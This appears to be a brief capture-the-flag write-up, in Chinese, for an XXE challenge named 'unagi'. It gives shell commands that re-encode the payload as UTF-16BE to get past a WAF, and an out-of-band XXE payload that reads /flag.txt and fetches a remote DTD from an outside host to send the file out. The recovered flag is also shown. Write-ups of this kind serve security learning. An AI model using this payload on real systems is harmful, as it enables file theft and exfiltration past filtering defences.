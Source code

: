 # unagi

基本上就是很明顯的XXE

但是有WAF各種擋

考點就是這篇的內容: https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0

換個編碼就能繞過WAF:

`echo -n "<?xml version=\"1.0\" encoding=\"UTF-16BE\"" > payload.xml`

`cat oob.xml | iconv -f UTF-8 -t UTF-16BE >> payload.xm`

其中`oob.xml`為:

```xml
?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://kaibro.tw/xxe.dtd">
%remote;
%all;
%send;
]>
```

Out of band XXE把flag.txt傳回來:

`flag{n0w_i'm_s@d_cuz_y0u_g3t_th3_fl4g_but_c0ngr4ts}`
